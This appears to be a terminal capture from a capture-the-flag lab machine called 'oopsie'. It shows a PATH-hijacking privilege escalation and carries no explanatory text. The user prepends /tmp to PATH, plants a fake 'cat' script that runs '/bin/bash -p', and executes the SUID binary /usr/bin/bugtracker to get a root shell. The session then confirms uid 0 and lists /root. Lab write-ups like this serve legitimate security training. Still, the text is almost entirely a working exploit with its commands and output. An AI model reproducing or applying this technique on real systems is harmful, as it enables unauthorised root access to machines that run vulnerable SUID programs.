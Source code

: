 ```bash
robert@oopsie:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ echo '/bin/bash -p' > /tmp/cat && chmod +x /tmp/cat
robert@oopsie:/$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: qwe
---------------

root@oopsie:/# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:e9:ee brd ff:ff:ff:ff:ff:ff
    inet 10.129.95.191/16 brd 10.129.255.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb0:e9ee/64 scope global dynamic mngtmpaddr
       valid_lft 86398sec preferred_lft 14398sec
    inet6 fe80::250:56ff:feb0:e9ee/64 scope link
       valid_lft forever preferred_lft forever
root@oopsie:/# cd /root
root@oopsie:/root# ls
reports  root.txt
```

